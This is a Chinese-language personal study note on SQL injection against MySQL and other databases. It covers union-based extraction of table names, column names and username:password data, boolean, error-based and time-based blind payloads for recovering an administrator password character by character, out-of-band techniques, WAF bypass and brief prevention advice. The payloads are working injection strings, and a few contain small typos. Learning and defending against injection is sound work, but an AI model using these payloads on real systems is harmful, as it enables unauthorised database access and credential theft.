



# 前言

第二遍学SQL注入了，第一遍学的云里雾里，不知道很多做法的根本原理，所以写下这一篇，弥补之前学的不足，并且回顾之前学的知识。

更深的SQL语句逻辑理解和实操结果见笔记“MySQL实操”

本篇以MySQL数据库为例。（当然实战中会遇见Oracle或者SQL-server，见文章刷题版）

> 大多数**SQL注入如何检测**：除了下面所提到的手工方法，实战中我们一般用**Burp suite的Web漏洞扫描程序来快速找到**。

> 不同的SQL注入部分：大部分注入点都在`SELECT...WHERE...`后面的语句中，但也有在`UPDATE...WHERE`或者`INSERT`或者`SELECT 列`或者`SELECT ORDER BY`

# 版本

## MySQL 5.0以后

- 有`information_schema`关键字，可以直接查表、查库。
- 为多用户模式

# 原理

**SQL注入的本质**：是字符串的拼接。让用户写入的东西**插入到web表单提交**或**输入域名**或页面请求的查询字符串，使服务器误以为是SQL语句而去执行。

## 举个例子

**在这个注入点中，后台的封装的SQL语句时这样的：**

> “SELECT password FROM student WHERE name=' ” + 用户要输入的语句 (一个变量)+" ' '"

**所以我们输入的语句，默认查的表是它给的student表，所以需要不全列用null补上，null也可以爆出列的数量**

> 1' union select null,null,null--

**除非后面利用`union+保留字`爆出库名表名列名后，在不同的表查询数据，则不用NULL**

## 步骤

1. ### **判断注入点是否可注，且判断sql注入的类型**

   - 有回显型：
     - 字符注入+联合/堆叠注入
     - 数字注入+联合/堆叠注入

   - 无回显型（盲注）：
     
     - 布尔盲注
     
     - 报错盲注
     - 延时盲注
     
   - 先考虑语句错误（正误都200但有welcom，正误为200和500），最后再考虑语法错误

2. ### **如果是有回显型**

   1. 万能密码/数字型注入（选取哪个看这个网页对哪个有反应）

      >  目的：爆出**默认当前表**中的隐藏数据、绕过登录界面的密码。
      >
      >  看个大概，能爆出多少数据。
   >**从原理上来说，爆出的应该是这个注入点开发者写的代码中的where=注入内容的东西。**
   
2. 用联合注入去查**默认当前表**
   
   > 目的：为了查找本表之外的其他表的信息
      >
   
   > 误区：
      >
      > 其实联合注入不光可以与其他表联合求并，也可以与自身联合求并，下面求证：
      >
      > > - **有两种基本情况，其中需要使用组合查询：**
   > >   - 1.在单个查询中**从不同的表**中返回类似结构的数据。
      > >   - 2.对单个表执行**从相同的表自身联合**查询，多用于确定列数/查询所在表的更多信息。
   >
      > **而其实自身联合查询出的结果可以等同于有多个WHERE子句查询出的结果。**微小区别是，**对于太过复杂的查询用UNION可能比用WHERE更好。**
   
      > 方法：见下。

      > 查询真实结果：见笔记“MySQL实操”

   3. 用联合/堆叠注入去查**其他表**
   
      - 方法一：联合注入。
   
        > **首先**，UNION注入的前提：
        >
        > - 查找**当前默认表中的，列的数量**（直接ORDER BY/UNION+NULL占位/UNION+select 1,2,3,4#）
        >
        >   > union查询中，**union前后两张表**的，列的数量要相同
        >
        > - 查找**有用的列**（一般在注入中有用的都是字符串形式的列）UNION+‘A’+NULL。
        >
        >   > 有用列的类型的选取，取决于注入点原本不注入是输入的数据的数据类型。
        >
        >   > union查询中，列要具备相似的数据类型，且列的顺序必须相同，因为union要实现并集，只有相同类型可并。
     >
        > **然后**，知道前提后：
        >
        > - 针对union前的当前表再加上union后的其他表，**爆出其他表中的数据**
     >
        >   由**库-->表-->列**的层层爆出。(通过保留字和函数，information_schema、SCHEMATA、TABLES、COLUMNS)
   
        > 为什么会有这个前提：
        >
        > > 目的：这样我们才可以对存在字符串类型的那一列，由库-->表-->列的层层数据。
   
      - 方法二：堆叠注入。
   
3. ### 如果是无回显型（即盲注）

   #### 介绍盲注

   > 即无回显（**不管正确错误【错误指语句查不到的单纯错误】都返回200**），**但有侧面回显**。（这里的侧面回显可能是**被动**抓包获得的，也可能是我们**主动**构造语句触发的）
   >

   #### 回显的分类

   - **抓包获得的回显**

     **即不知这个语句时正确还是错误，看浏览器的抓包回应，和之前的注入一样。**

     > 即**布尔盲注（抓包获得正误回显）**的应用，我们所注入的sql语句是否能查询到都会返回200。只不过如果查不到的语句（错误的语句）注入后在抓包后不会与原页面有任何的变化；而能查到的语句（正确的语句）注入后，在抓包后会有“**welcome back**”等的出现。

   - **我们构造语句触发的回显**

     **即用已知正确或者错误的语句去倒推。**（更改自身的逻辑后倒推）

     > - **报错盲注（让它语法错误）**
     >
     >   比如用**除以0来让输入语法本身错误**，从而有条件的触发错误。
     >
     >   （因为单纯的语句错误或注入查不到的语句仍然会返回200）
   
   - **没有回显**
   
     即使错了也不会返回错误信息
   
     **即用已知正确或者错误的语句去倒推。**（更改自身的逻辑后倒推）

     > - **时间盲注（）**
     >
     > 比如用sleep()函数来条件的触发**延迟**
     >
     > （因为单纯的语句错误或注入查不到的语句仍然会返回200）
   
   > 比如用OAST技术触发带外网络交互。比如将数据放在我控制的DNS域中查找

# 函数

> `user()`等同于`SESSION_USER()`函数和`SYSTEM_USER()`，返回当前链接数据库的用户

>  `database() `   **返回当前数据库的名称**-->SELECT database()

> `version()` **返回当前数据库的版本号**

> `group_concat(x1，x2)`    把多个字符串链接成一个字符串，mysql的这个函数**可以连接任意数据类型**,SQL注入中多用于把select到的所有表的名字连成一行。如group_concat(table_name)
>
> ```SQL
> 1' union select 1,group_concat(table_name) where information_schema.tables where
> tables_schema='geek',3#
> #group_concat()函数+保留字应用
> ```

> `CONCAT_WS(separator,string1,string2,...)`有缝拼接两个字符串。
>
> 把两个字符串拼接起来，且用`separator`相连接。
>
> > 应用：我们要查两个字段的内容，而注入点只能返回一个字段的东西

> `left('example',1)`截取字符串中前几个字符

> `length()` 返回字符串的长度
>
> > 应用：多用于测试密码的长度

> `SUBSTRING(PASSWORD,START,LENGTH)`从字符串的指定位置有效提取子字符串的长度
>
> > 应用：常用于一个字符一个字符字典爆破密码是多少
> >
> > 例如：`SUBSTRING(PASSWORD,1,1)`是对密码中第一个字符的爆破
> >
> > `SUBSTRING(PASSWORD,2,1)`是对密码中第二个字符的爆破

> `select CASE WHEN 表达式 THEN 1 ELSE 0`
>
> > 上面语句表示，如果表达式正确返回1，否则返回0

> `SELECT IF(1=1,SLEEP(10),'a')`

> `sleep(x)`
>
> > 常用于时间盲注。延迟返回x秒
> >
> > 具体所放的位置和怎么用要看特定的数据库了
> >
> > 一般**放在列名上**：`select sleep（x），users ...`
> >
> > 但也**可直接字符串相连**: `'||PG_SLEEP(X)`

# 保留字

多用于SQL注入什么都不知道的时候，用select查保留字，一层一层查，库->表->列

> `information_schema`库
>
> - **Mysql5.0以上版本**自带的信息数据库，里面存储MySQL服务器所维护的其他数据库的所有信息（库名、表、表的数据类型、访问权限）
>
> - 其中里面存储的表相当于**视图**，只能只读表，不能修改。
>
> - 此自带信息数据库下的所有表有：
>
>   
>
>   > `TABLES`表格
>   >
>   > 泛指表，如可以使用`information_schema.tables`来查看所有的表。与`show tables from schemaname(库名)`命令结果一致
> >
>   > > `table_schema`  代指本表所在的数据库
>   >
>   > > `table_name`代指查询到的表名称的统称
> > >
>   > > 多用group_concat(table_name)
>   >
>   > ```SQL
> > #例子
>   > /?id=1' and 1=2 union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=要查的具体的库 and '1'='1
>   > #这里 “要查的库名”，可以用database()函数查询当前库名
>   > ```
> 
>   > `SCHEMATA`表格
>   >
>   > 当前mysql实例中所有数据库的信息，和`SHOW DATABASE`命令的结果一致
>   >
>   > > `schema_name`库名
> 
>   > `COLUMNS`表格
>   >
>   > 所有列，与`show columns from schemaname.tablename`的结果一致
>   >
>   > > `table_schema`
>   >
>   > > `table_name`
>   >
>   > > `column_name`
> 
>   > `STATISTICS`表格
>   >
>   > 所有索引信息，与`show index from schemaname.tablename`的结果一致

> `auto_increment`
>
> 表示自增ID

# 符号

- 注释符

  > 行内注释符号

  `/**/`，如`/*123*/`

  > 行外注释符

  `-- `或者`#`，指把此符号后面的所有东西都注释掉

  > 针对空格会被URL隐掉问题

  由于`--`注释后面会有一个空格，但是这个空格在url中会被浏览器直接处理掉，到不了数据库里

  解决办法：变成：`--+`

- 多组堆叠注入查询符号

  `;`，需要一起写多条SQL语句时用到

- 连接符

  管道符`||`，用于链接两个字符串

  (在Mysql和maria中是“或”的意思)
  
  ``````sql
  'A'||'B'
  #等同于
  'AB'
  ``````

# 单引号&双引号&反引号

> **注意：SQL注入时，开发者用双引号、单引号实现的字符串的链接**

> 单引号和双引号的区别与联系

- **一般情况下（所包含的字符串本身没有引号）**，Mysql中，单引号和双引号没有区别，可换用。

- **特殊情况下（所包含的字符串本身有引号）**，则可以：

  ``````sql
  " 'A' OR 'b'='3' "
  ' "A" OR "b"="3" '
  ``````

> 反引号

- **如果建的表名为MySQL本身的关键字，这个名字需要用反引号括起来**。为了区分Mysql本身的保留字和用户自定义的名字。所以为保证不出错，一般创建表名和库名的时候，都会用反引号把名字括起来。

# 常见SQL注入分类

## 1.数字型注入

> 指 注入内容不带引号

```SQL
123' AND 1=1  成功
123' AND 1=2  报错
```

## 2.字符型注入（万能密码）

> 指注入内容带引号

``````SQL
123' OR '1'='1
``````

## 3.联合注入（UNION）

用于合并两个或者多个SELECT语句的结果集，并默认消除表中的任意重复行(`UNOIN ALL`表示保留重复行)

### 步骤1

**一般都是合并默认当前表和想爆出的其他表的数据，而想爆出的数据一般都是字符型，所以下面两个限制的解决方法都针对默认当前表。**

> **限制1：查询这个表时，必须要知道这个数据表有多少列（列的数量）**

> 三种解决方法：

``````sql
1' union SELECT 1,2,3,4 #
#数据表有四列的情况

order by 5-- 报错
order by 4--  成功
#数据表有四列的情况

' UNION SELECT NULL,NULL,NULL,NULL--    报错
' UNION SELECT NULL,UNLL,NULL,NULL,NULL--     成功
#数据表有四列的情况 
``````

> **限制2：查询的数据要是与对应列的数据类型匹配的**

```sql
#以自身联合查询为例：
1' union select 1,"张三",2,3,"杭州" #
```

> 解决：找到有用的数据列

```SQL
'UNION SELECT'a'，NULL，NULL，NULL-- 
'UNION SELECT NULL，'a'，NULL，NULL-- 
'UNION SELECT NULL，NULL，'a'，NULL-- 
'UNION SELECT NULL，NULL，NULL ，'a'-- 
```

### 步骤2

利用保留字获取其他表的信息，记住`information_schema`数据库和

`SCHEMATA`表存储该用户创建的所有数据库的库名
`TABLES`表存储该用户创建的所有数据库的库名和表名
`COLUMNS`表存储该用户创建的所有数据库的库名、表名和字段名

- 从当前数据库中提取数据表

  ```sql
  1' and 1=1 union select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema = database() --
  ```

-  从表名中提取列名

  ```sql
  1' and 1=1 union select 1,group_concat(column_name),3,4 from information_schema.columns where table_schema = database() and table_name ='user'--
  ```

- 从表中提取敏感列的信息

  ```sql
  1' and 1=1 union select 1,group_concat(username,0x3a,password),3,4 from user--
  ```

### 解释：SELECT 1,2,3... 

```SQL
1' UNION SELECT 1,2,3#
1' UNION SELECT 1,2,3,4#
```

- 含义：select后面直接跟数字，**不指向任何数据表，返回值为一个1*n维数组**，只是一个例子，**值任意**，想获得多少列的数据，就写多少个数字，**因为不能超过最大列数，所以多用来测试列的数量**。

- 作用：**快速测试哪几列能回显**

  > 由于在SQL注入时，当我们已经知道了列数，可以使用union联合注入语句，但仍然会有一个问题：我们**不知道这个这些字段是否都能回显到网页前端被我们看见**。
  >
  > 所以这个语句相当于是**找到数据库与前端的显示通道**，避免重复且冗长的查询测试

- **误区：**

  **这里的`1,2,3...`没有任何的实际意义，并不代表第一列、第二列、第三列。反而某些函数和order by语句后面的数字能够代表第几列。**
  
- **实战结果：**

  

### 解释：order by 5

- 含义：**5表示第5个字段，即第五列表示的是索引**

- 作用：**测试默认当前表中有几列数据**。如果在注入式5存在而6不存在，说明只有5列。

- 实战例子：

  ``````
  ' ORDER BY 1 --
  ' ORDER BY 5 --
  ``````

### 解释：UNION SELECT NULL,NULL

- 含义：用`NULL`来占位列,`NULL`还可以用于列的补全

- 作用：**测试默认当前表中有几列数据**

- 实战例子：

  ``````sql
  ' UNION SELECT NULL,NULL --
  ``````

- 实战结果：

  

### 解释：NULL进行union中列的补全

- 作用：比如

  如果我们根据上面的方法查询到**这个默认查询的表**中有7列-->

  所以查到的7列是这张表的所有列-->

  说明这个注入点，**如果用联合注入**，联合的那张表中必须要有7列数据，**但7列中肯定有无用的数据，就用NULL占位**-->

  **除非用where语句查其他表不需要补全**

- 实战例子：

  ```SQL
  1' or 1=1 union select userid,user_name,password,null,null,cookie,null from
  user_system_data(自定义的表名) --
  #用null补齐列（先后位置要一致）+联合注入
  ```

## 4.堆叠注入

- 作用：与UNOIN作用一致，但是**没有**UNION的列数和类型一致的**限制**

  但是不会返回查询结果，所以大多用于盲注。

  ```SQL
  不支持 --Oracle
  QUERY-1-HERE; QUERY-2-HERE --Microsoft/PostgreSQL/MySQL
  ```

- 实战例子

  ```SQL
  1'; select * from user_system_data(自定义的表名) --
  #堆叠注入的使用
  #堆叠注入和联合注入功能一样，二选一即可
  ```

## 5.搜索型注入

- 进行数据搜索时，没有过滤搜索参数

  `Keywords=关键字`

- 实战例子：`LIKE`字段

  ```SQL
  #原本开发者写的语句：
  select * from 表名 where 字段 like '%关键字%'
  #我们的注入语句：
  select * from 表名 where 字段 like '%测试%' and '%1%'='%1%'
  ```

## 6.布尔盲注

> 官方解释：不会返回SQL查询的具体结果或者错误消息，但是如果查询返回任何行，应用程序会在页面中提示“welcome back”
>
> 自己心得：**正确会返回welcome back，但错误（语句查不到）时不会报错，只会和原页面无异。**
>
> **正确和错误（语句查不到）都是200。**

### 判断方法

> **与前面字符/数字型判断方法一样,以下复习一遍**

> 1. 判断注入点是否可注
>
>    > ``````sql
>    > 1' AND 1=1 #页面返回有数据
>    > 1' AND 1=2 #页面返回无数据
>    > 即：
>    > 1' and true  #有回显
>    > 1‘ and false  #无回显
>    > ``````
>
> 2. 判断字段数
>
>    > ``````sql
>    > 1' AND 1=1 ORDER BY 2 #页面返回有数据
>    > 1' AND 1=1 ORDER BY 3 #页面返回无数据
>    > #则当前的字段数是3
>    > ``````

### 爆密码长度

```SQL
TrackingID' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a
```

### 爆密码

```sql
TrackingID' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE
username='administrator')='a
```

### 解释：SELECT ‘a’ from users LIMIT 1 

> 探测users这张表存不存在

如果存在，**这条语句返回的结果是等于`‘a’`**

==（已解决）既然等价，如果写成’a‘不行吗？==

> 不行，因为注入点的语句必须是sql语句（这是由开发者的代码决定的），不能是一般的布尔判断式

### 解释：TrackingId=pass' AND ( select 'a' from users where username='administrator' AND LENGTH(password)>1)='a

- 两个`and`

  - 第一个`and`是普通的短路原则的判断

  - 第二个`and`是针对`WHERE`后面的语句

    连在一起的是：

    ```SQL
    username='administrator' AND LENGTH(password)>1)='a
    ```

- `select 'a' from users where username='administrator'`如果在表存在的情况下，这句话等价于`a`

- 但是，不能把`select 'a' from users where username='administrator'`直接代替为`'a'`

  - 一是因为这个注入点必须要包含sql语句
  - 而是因为如果是这样的话，对第二个`and`的理解就有错误了

## 7.报错盲注

> 官方解释：不会返回SQL查询的结果，也不会根据查询是否返回任何行而做出任何不同的响应。但如果sql查询语法导致错误，会返回错误消息
>
> 自己心得：直接错误（sql语句错误）时或者正确时都不会返回任何东西。
>
> 因为Web浏览器可能采取了**重定向、屏蔽等措施**
>
> **只有当输入语句本身错误（sql语法错误）（比如**1/0）时才会报错**。故可以利用此倒推
>
> 正确和错误都是200，但报错是500

- 在各个数据库中：

  ```SQL
  SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN TO_CHAR(1/0) ELSE NULL END FROM dual --Oracle
  SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END --微软/MySQL
  1 = (SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN CAST(1/0 AS INTEGER) ELSE NULL END)--pOSTgreSQL
  SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a') --MySQL
  ```

### 判断方法（sql）

> 1. 判断注入点是否可注
>
>    > ```SQL
>    > 1' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a // 此时界面正常
>    > 1' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a // 报错，因为除数为零
>    > ```
>
> 2. 判断字段数
>
>    > ```SQL
>    > 1' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE order by 2 -- // 界面正常，并判断字段数是否为 2
>    > 1' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE order by 2 -- // 报错
>    > ```

### 更简单基础的判断方法：引号是否闭合是否会对页面影响

> 目的：说明语法错误对这个点有影响，我们可以着重语法错误下手

有影响的情况：

```SQL
TrackingId=xyz'  #返回500错误，500表示服务器遇到了不知道如何处理的错误
TrackingId=xyz''	#返回200正确
```

无影响的情况：

```SQL
TrackingId=xyz'	#返回504错误
TrackingId=xyz''	#返回504错误
#504表示当服务器充当网关时无法及时获得响应，会给吹此错误
```

### 解释：双管道符`||`的应用

> 表示字符串的连接（在~~所有版本~~**Oracle、PostgreSQL**的数据库中都是这个作用）

例如1：

把列名相连接

```SQL
' UNION SELECT username || '~' || password FROM users--
#表示把查询到的username和password用符号‘~’链接起来,即username~password
```

例如2：

**多条查询直接相连**

```SQL
TrackingId=xyz'||(SELECT '')||'
```

### 解释：`TrackingId=xyz'||(SELECT '' FROM dual)||'`

`||`表示链接

`TrackingId=xyz'||(SELECT '' FROM dual)||'`等价于`xyz`

至于为什么要写这么一长串

> 一是为了确认可以进行SQL注入
>
> 二是为了通过字符串的链接去执行多条语句


## 8. 时间盲注

> 为什么会存在？
>
> **因为查询是同步执行的。**

> 有的时候查询必须要`URL编码`
>
> > 比如：`;`的URL编码就是`%3B`

### 判断方法

> sleep(0)和sleep(10)一定要分布在`then...else...`后面
>
> 1. 判断注入点是否存在
>
>    > ```SQL
>    > 1' ; (SELECT CASE WHEN (1=2) THEN sleep(10) ELSE sleep(0) -- // 此时界面无延时
>    > 1' ; (SELECT CASE WHEN (1=1) THEN sleep(10) ELSE sleep(0) -- // 此时页面延迟10秒
>    > 
>    > ```
>
> 2. 判断字段数
>
>    > ```SQL
>    > 1' ; (SELECT CASE WHEN (1=2) THEN sleep(10) ELSE order by 2 -- // 界面正常，会去判断字段数是否为 2
>    > 1' ; (SELECT CASE WHEN (1=1) THEN sleep(10) ELSE order by 2 -- // 延时 10s
>    > 
>    > ```

## 9.OAST外带应用程序安全测试技术

> 目的：
>
> 1. （OAST外带技术）为了应对如果系统将处理请求和数据库操作分给了两个线程异步执行的时候，且对应用程序没有响应的时候，1-8的注入技术都将不生效了。
>
> 2. （外带技术）如果插入恶意脚本时无法立即触发或者回显，（比如需要管理员审核后才会回显），即目标服务器是盲的。
>
>    -->通过向我们新建的中间服务器发送消息，我们新建的服务器记录与访问者（前台）的交互信息

### 介绍

- 带外：有一台外部服务器。（即系统与外部网络进行交互的技术）

- 方式：利用DNS流量将注入结果发送到我们的外部网络服务器中接收。（**因为大部分应用系统都会使用DNS服务**，都会允许DNS流量通过）

  > Burp Collaborator 工具，可理解为轻量级web服务器，可以接收HTTP和DNS流量。（因为它可以生成临时地址）

- 结果：通过一条DNS请求查看完整的注入结果。（不需要一位一位猜测）

### 带外交互的盲SQL注入

中间服务器（Burp Collaborator）+SQL注入联合基本XXE技术

### xp_dirtree

> 一个存储过程，让SQL服务实例对提供的文件路径进行目录遍历

- `master..xp_dirtree`等于`master.dbo.xp_dirtree`

- `xp_dirtree`

  用于显示当前目录的子目录，有三个参数：

  `directory`：表示要查询的目录

  `depath`:要显示子目录的深度，0默认所有子目录

  `FILE`：第三个参数，布尔类型，是否显示子目录中的文件，默认为0即不显示

  ```SQL
  exec xp_dirtree 'c:\'
  exec xp_dirtree 'c:\',1
  exec xp_dirtree 'c:\',1,0
  ```


### 不同数据库触发带外DNS


## XML编码绕过注入

> 原因在于实战中，**有可能使用了`WAF`**，会过滤掉明显是SQL注入的部分。
>
> 而这里的XML或者JSON就是要混淆过滤器。
>
> > **关于XML和JSON：**
> >
> > 都是用于存储和传输数据，属于html的拓展。之所以要新用两门语言是因为他们在存储数据的同时，具有能够直接被数据库识别的结构。

### WAF和编码绕过可行的原因

**编码绕过的前提：**提交的编码后的参数内容在进入数据库查询语句之前会有相关的解码代码。

**WAF工作流程：**查看是否在白名单上-->解析数据-->通过自己的一套判断机制判断危不危险-->决定是否准许数据写入数据库

**BYPASS WAF实际上是去寻找位于WAF设备之后处理应用层数据包的硬件/软件的特性。利用特性构造WAF不能命中，但是在应用程序能够执行成功的载荷，绕过防护。**

### 插件Hackvertor

> 基于标签的转码器（比docker强大很多）

基于标签：是为了可以嵌套、多层编码。

# 其他部分SQL注入

> 上述的SQL注入都是出现在`SWLECT`的`WHERE`子查询里的

但还存在：

- 在更新语句`UPDATE`的子句`WHERE`中
- 在插入值内`Insert`
- 在表或者列名称内`SELECT 列名`
- 在`SELECT`的排序`ORSER BY`内

# 检测SQL注入

### 扫描注入点工具

- `burp scanner`

### 测试注入点

- 运用逻辑和语法，让计算结果故意和原始值不同

- 直接添加单引号`'`看有无错误，语法错误

- 添加布尔判断式子`AND` 或者`OR`

  > `AND 1=1`  
  >
  > `AND1=2`

- 时间延迟函数`sleep( )`，看延迟回显

- 外带OAST的负载

### 防止SQL注入

- 预处理（CMS开发中讲到过）

- 参数化查询

  即在链接数据库时，就已经给输入的参数赋值了。（而不是链接数据库时，链接的参数还是变量，还需要后续赋值）

> 其实以上两者都一样，都是进行了预编译，以空间换时间和安全。

# 二阶SQL注入

一阶 SQL 注入出现在应用程序从 HTTP 请求获取用户输入并在处理该请求的过程中以不安全的方式将输入合并到 SQL 查询中的情况。

在二阶 SQL 注入（也称为存储的 SQL 注入）中，应用程序从 HTTP 请求中获取用户输入并将其存储以供将来使用。这通常是通过将输入放入数据库来完成的，但在存储数据的位置不会出现漏洞。稍后，在处理不同的 HTTP 请求时，应用程序会检索存储的数据，并以不安全的方式将其合并到 SQL 查询中。

# 思考

- **数字型和字符型为何会存在这两种类型？**

  因为比如如果是数字型注入，是对`ID=1`这种数字类型的列注入

  如果是字符型注，是对`name=`这样的字符串类型进行注入

- **另外一种分类方式**

  > 全文的逻辑架构都是按照注入点的类型来进行分类的

  **按数据提交方式来分类：**

  1. **GET注入**

     一般注入点在URL里面

  2. **POST注入**

     常发生在表单部分

  3. **HTTP头部注入**

     注入点在HTTP头部的某个字段中，比如user-agent字段中。

     - **cookie注入**

       注入点在cookie的某个字段里，而cookie存在于请求中，故需要抓包获得

- **理解sql注入的语句逻辑的时候什么最重要？**

  > 我的回答是，`OR`或者`AND`前后的语句怎么划分的、是否是一个整体。以及Oracle的`||`的应用。以及`CASE WHEN...THEN...ELSE`的应用

  - 比如数字/字符型注入时，`OR`或者`AND`前一个单词和后一个单词就是一个整体（为了方便理解，用空格分割开来的都统称为单词）

     ```sql
    select * from stu where studinfo=2000 or 1=1;
    ```

    整体是：`studinfo=2000 or 1=1`

    所以此句注入成功执行后，会爆出stu的所有内容，即`*`

  - 比如布尔盲注爆密码长度时

    ```SQL
    TrackingID' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a
    ```

    尽管`SELECT 'a' FROM users WHERE username='administrator'`与`'a'`等价，但我们不能进行直接替换，根本原因就是因为，这里的`AND`逻辑是sql语句内部的，跟在where后的，and前后的两个单词连一起的

    即整体是：`username='administrator' AND LENGTH(password)>1`

  - 比如报错盲注用`||`对Oracle数据库进行注入时
  
     `TrackingId=xyz'||(SELECT '' FROM dual)||'`等价于`xyz`
  
  - 报错注入用`and`方法或者`||`方法时都要考虑此逻辑
  
     **bp密码爆破的原理是返回的状态不一样**)。即**并没有在所有情况的爆破中出现`THEN...ELSE...`两边的情况。**
  
     即**我们的密码判断是否是某个字符的表达式应该在`SELECT CASE WHEN`后面**
  
     所以应该是：
  
     ```SQL
     TrackingId=LKhHSsm70t3BWS33' and (SELECT CASE when SUBSTR(PASSWORD,§1§,1)='§a§' THEN TO_CHAR(1/0) ELSE 'A' END FROM users where username='administrator')='A--
     ```
  
     而不是：
  
     ```SQL
     TrackingId=LKhHSsm70t3BWS33' and (SELECT CASE when (1=2) THEN TO_CHAR(1/0) ELSE SUBSTR(PASSWORD,§1§,1) END FROM users where username='administrator')='§a§--
     ```
  
- **单/多线程 对注入操作有什么影响吗**

  （因为已知OAST技术是解决“传统注入只适用于单线程（有无回显、时间延迟）”问题）

  猜测：

  - 时间盲注上的区别：

    单线程：因为查询同步执行（一条线顺下来先后执行），所以时间延迟较为准确。能用时间盲注

    多线程：因为查询异步执行（不知道哪一块先执行哪一块后执行），所以时间延迟不准确。不能用时间盲注。
  
  - 其他注入上的区别：
  
    我们所注入的东西可能需要管理员认证才会回显，这种情况下目标服务器是盲的。则我们需要建立一个中间服务器。

# 重点

- 如果想要提升对于sql语句逻辑的构造

  > 一是：一定要去思考开发者在这个注入点所写的代码。（实战反应）
  >
  > 二是：要实操我们学的这些SQL语句真正的执行结果，并记住。（学习准备）

- 注入点的语句一般怎么相连的？

  - `' UNION SELECT`联合

    - 特点：联合注入的结果会回显

  - `' AND 布尔表达式`

    `' OR 布尔表达式`

  - `';SELECT`堆叠

    - 特点：堆叠注入的结果不会直接回显
    - 应用：盲注（报错注入、时间注入）等不需要直接回显的漏洞中

  - `'||SELECT ''||'`双管道符

    - 含义：`||`表示字符串的连接
    - 应用：Oracle数据库、PostgreSQL数据库中